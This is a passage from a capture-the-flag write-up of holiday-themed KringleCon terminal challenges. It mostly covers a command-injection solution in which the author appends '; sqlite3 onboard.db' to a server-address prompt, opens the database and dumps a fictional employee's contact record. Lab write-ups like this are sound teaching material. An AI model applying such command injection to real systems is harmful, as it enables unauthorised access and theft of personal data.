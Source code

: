 Easy enough, Esc + :q!.
Note that I didn't have to press escape because I was already in command mode, but it's never a bad idea to double check, and similarly I did not have to use the "!" to force quit, but that's just a (bad) habit.

Now that I've helped her, Bushy gives me the following hint for Challenge 1
>If you listen closely to Ed Skoudis' talk at the con, you might even pick up all the answers you need...

### The Name Game
[Link to Cranberry Pi terminal](https://docker.kringlecon.com/?challenge=pwshmenu&id=81397ae8-3cde-48e9-ba61-03414535ed9b)

This challenge is located to the left of the castle entryway.

Minty Candycane seems to have forgotten her coworker's, last name "Chan", first name, and wants our help finding it out using Alabaster Snowball's tools. She drops some hints that it is probably using an SQLite database, and that the onboarding system probably uses PowerShell.

When we open our shell, we are given the option to start the onboarding process, verify the system, or quit the application. Since Minty thought it was important to tell us about the onboarding system, that seems like a good place to start.

After spending 30 minutes unsucessfully trying to inject into the onboarding option, I finally decided I would take a look at option two, system verification. Running it gave me the following:

```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4.
ping: unknown host 1.2.3.4
onboard.db: SQLite 3.x database
```

This seems ripe for injection, let's try saying our server is _1.2.3.4; sqlite3 onboard.db_...
```
Validating data store for employee onboard information.
Enter address of server: 1.2.3.4; sqlite3 onboard.db
connect: Network is unreachable
SQLite version 3.11.0 2016-02-15 17:29:24
Enter ".help" for usage hints.
sqlite>
```

Looks like we got database access. Let's enumerate the schema, then get Chan's first name.

```
sqlite> .tables
onboard
sqlite> .schema onboard
CREATE TABLE onboard (
    id INTEGER PRIMARY KEY,
    fname TEXT NOT NULL,
    lname TEXT NOT NULL,
    street1 TEXT,
    street2 TEXT,
    city TEXT,
    postalcode TEXT,
    phone TEXT,
    email TEXT
);
sqlite> SELECT * FROM onboard WHERE lname LIKE "Chan";
84|Scott|Chan|48 Colorado Way||Los Angeles|90067|4017533509|scottmchan90067@gmail.com
```
